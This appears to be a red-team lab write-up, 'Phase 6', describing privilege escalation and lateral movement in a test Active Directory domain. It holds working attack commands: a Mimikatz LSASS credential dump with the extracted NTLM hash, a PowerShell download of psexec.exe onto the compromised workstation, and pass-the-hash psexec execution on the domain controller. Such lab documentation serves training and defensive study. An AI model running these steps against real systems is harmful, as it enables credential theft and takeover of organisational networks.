







## Phase 6: Privilege Escalation & Lateral Movement

---

### Overview

**Objective**

This phase demonstrates the complete attack lifecycle of escalating privileges from a standard domain user to achieving Tier-0 Domain Controller compromise. An initial foothold as a normal user (`FADHLI-WIN10`) is escalated to `NT AUTHORITY\SYSTEM` through Windows service manipulation. The elevated privileges are then leveraged to harvest cached administrative credentials (`FADH-WIN10`). These credentials are subsequently weaponized to pivot laterally to the Active Directory Domain Controller (`REDGUNN.local`).

---

### MITRE ATT&CK Mapping

**Tactics**

- TA0004 – Privilege Escalation  
- TA0006 – Credential Access  
- TA0008 – Lateral Movement  

**Techniques**

- T1543.003 – Create or Modify System Process: Windows Service  
- T1003.001 – OS Credential Dumping: LSASS Memory  
- T1105 – Ingress Tool Transfer  
- T1550.002 – Use Alternate Authentication Material: Pass-the-Hash  
- T1021.002 – Remote Services: SMB/Windows Admin Shares  

---

### Strategy & Attack Flow

The attack sequence follows a structured four-stage process designed to bypass network constraints and exploit credential remnants within the environment.

**1. Privilege Escalation (Service Hijacking)**  
Operating as a standard user (`FADHLI-WIN10`), the attacker installs and executes a malicious service payload to elevate the session to `NT AUTHORITY\SYSTEM`.  
*(Service manipulation was performed in the previous phase.)*

**2. Credential Harvesting**  
With SYSTEM privileges obtained (specifically `SeDebugPrivilege`), the attacker accesses LSASS memory to extract the cached NTLM hash of `FADH-WIN10`, a domain/workstation administrator who previously authenticated to the machine.

**3. Tactical Tool Ingress (Proxy Evasion)**  
Due to instability when routing SMB/RPC traffic through a C2 SOCKS proxy, the attacker transfers a compiled Windows executable (`psexec.exe`) directly to the compromised workstation.

**4. Internal Pivoting & Execution**  
The compromised workstation is used as a launchpad for lateral movement. The attacker leverages the stolen `FADH-WIN10` NTLM hash to authenticate internally to the Domain Controller and execute commands via Service Control Manager (SCM) abuse before removing artifacts.

---

## Attack Timeline & Execution

### Step 2: Credential Harvesting via LSASS Dump

**Context**

Operating as `SYSTEM`, the attacker has sufficient privileges to read the memory space of the Local Security Authority Subsystem Service (`lsass.exe`). The objective is to extract the cached NTLM hash of `FADH-WIN10`, an administrative account with both local administrator privileges on the workstation and administrative privileges within the `REDGUNN.local` domain.

**Execution**

```powershell
.\mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

<p align="center">

</p>

<p align="center">

</p>

<p align="center"><em>Figure 6.1: Mimikatz extracting the NTLM hash of the FADH-WIN10 administrative account from LSASS memory.</em></p>

**Extracted Credentials**

```
Username : FADH-WIN10
Domain   : REDGUNN
NTLM     : 5605a652e5f078353f8ecf73e3771b75
```

---

### Step 3: Tactical Tool Ingress

**Context**

Attempts to execute Impacket scripts directly through the Sliver SOCKS proxy resulted in SMB/RPC latency and incomplete payload transfers. To mitigate this, the attacker shifts strategy by bringing the lateral movement tool directly into the internal network.

Instead of pushing files through the C2 tunnel, the attacker leverages native Windows utilities to pull the binary from an external source.

**Execution**

```powershell
PS C:\Users\Public> Invoke-WebRequest https://raw.githubusercontent.com/maaaaz/impacket-examples-windows/master/psexec.exe -UseBasicParsing -OutFile psexec.exe
```

<p align="center">

</p>

<p align="center">

</p>

<p align="center"><em>Figure 6.2: Downloading psexec.exe directly onto the compromised workstation using PowerShell.</em></p>

---

### Step 4: Lateral Pivot via Pass-the-Hash

**Context**

The attacker executes `psexec.exe` using the harvested `FADH-WIN10` NTLM hash. This allows authentication without requiring the plaintext password and enables remote access to the `REDGUNN.local` Domain Controller over SMB (port 445).

**Execution**

```powershell
PS C:\Users\Public> .\psexec.exe -hashes aad3b435b51404eeaad3b435b51404ee:5605a652e5f078353f8ecf73e3771b75 REDGUNN/FADH-WIN10@192.168.3.11
```

<p align="center">

</p>

<p align="center"><em>Figure 6.3: Authentication to the Domain Controller using Pass-the-Hash.</em></p>

---

### Step 5: Remote Execution & Artifact Cleanup

**Context**

To avoid instability caused by nested interactive shells, the attacker performs a single command execution approach.  

`psexec.exe` uploads a temporary payload to the Domain Controller’s `ADMIN$` share, abuses the Service Control Manager to execute the command as `SYSTEM`, returns the output to the attacker, and automatically removes the temporary service and binary.

**Execution**

```powershell
PS C:\Users\Public> .\psexec.exe -hashes aad3b435b51404eeaad3b435b51404ee:5605a652e5f078353f8ecf73e3771b75 REDGUNN/FADH-WIN10@192.168.3.11 "ipconfig"
```

<p align="center">

</p>

<p align="center">

</p>

<p align="center"><em>Figure 6.4: Successful remote command execution on the Domain Controller followed by automatic artifact removal.</em></p>
